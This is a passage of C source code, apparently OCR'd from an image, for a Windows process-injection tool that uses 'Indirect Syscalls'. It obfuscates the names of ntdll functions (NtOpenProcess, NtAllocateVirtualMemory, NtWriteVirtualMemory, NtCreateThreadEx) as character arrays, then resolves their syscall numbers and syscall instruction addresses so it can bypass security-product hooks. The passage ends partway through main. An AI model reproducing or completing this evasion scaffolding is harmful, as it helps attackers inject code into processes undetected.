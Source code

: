 ```c
    char syscallBuffer[20];
    sprintf_s(syscallBuffer, sizeof(syscallBuffer), "0x%p", (void*)syscallAddress);

    for (int i = 0; syscallBuffer[i] != '\0'; i++) {
        printf("%c", syscallBuffer[i]);
        fflush(stdout);
        Sleep(10);
    }
    printf("\n");
}

int main() {

	HANDLE hConsole = GetStdHandle(STD_OUTPUT_HANDLE);
	PVOID allocBuffer = NULL;

	char n_dll_name[] = { 'n','t','d','l','l','.','d','l','l',0 };
	char NotNtOpenProcessName[] = { 'N', 't', 'O', 'p', 'e', 'n', 'P', 'r', 'o', 'c', 'e', 's', 's', 0 };
	char NotNtAllocateVirtualMemoryName[] = { 'N', 't', 'A', 'l', 'l', 'o', 'c', 'a', 't', 'e', 'V', 'i', 'r', 't', 'u', 'a', 'l', 'M', 'e', 'm', 'o', 'r', 'y', 0 };
	char NotNtWriteVirtualMemoryName[] = { 'N', 't', 'W', 'r', 'i', 't', 'e', 'V', 'i', 'r', 't', 'u', 'a', 'l', 'M', 'e', 'm', 'o', 'r', 'y', 0 };
	char NotNtCreateThreadExName[] = { 'N', 't', 'C', 'r', 'e', 'a', 't', 'e', 'T', 'h', 'r', 'e', 'a', 'd', 'E', 'x', 0 };
	char NotNtWaitForSingleObjectName[] = { 'N', 't', 'W', 'a', 'i', 't', 'F', 'o', 'r', 'S', 'i', 'n', 'g', 'l', 'e', 'O', 'b', 'j', 'e', 'c', 't', 0 };

	SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
	printf(
		" _______           __ __                   __        _______                          __ __	\n"
		"|_     _|.-----.--|  |__|.----.-----.----.|  |_     |     __|.--.--.-----.----.---.-.|  |  |.-----.	\n"
		" _|   |_ |     |  _  |  ||   _|  -__|  __||   _|    |__     ||  |  |__ --|  __|  _  ||  |  ||__ --| \n"
		"|_______||__|__|_____|__||__| |_____|____||____|    |_______||___  |_____|____|___._||__|__||_____| \n"
		"                                                             |_____|							\n"  
	);

	SetConsoleColor(FOREGROUND_GREEN | FOREGROUND_INTENSITY);
	printf("////////// CARREGANDO FUNCOES NT //////////\n\n");

	UINT_PTR pNtOpenProcess = (UINT_PTR)GetProcAddress(GetModuleHandleA(n_dll_name), NotNtOpenProcessName);
	if (pNtOpenProcess == 0) {
		SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
		fprintf(stderr, "\nErro: Nao foi possivel encontrar o endereco de NtOpenProcess\n");
		return 1;
	}
	SSNtOpenProcess = ((unsigned char*)(pNtOpenProcess + 4))[0];
	AddrNtOpenProcess = pNtOpenProcess + 0x12;
	printAddressLetterByLetter("NtOpenProcess", pNtOpenProcess, pNtOpenProcess + 0x12);

	UINT_PTR pNtAllocateVirtualMemory = (UINT_PTR)GetProcAddress(GetModuleHandleA(n_dll_name), NotNtAllocateVirtualMemoryName);
	if (pNtAllocateVirtualMemory == 0) {
		SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
		fprintf(stderr, "\nErro: Nao foi possivel encontrar o endereco de NtAllocateVirtualMemory\n");
		return 1;
```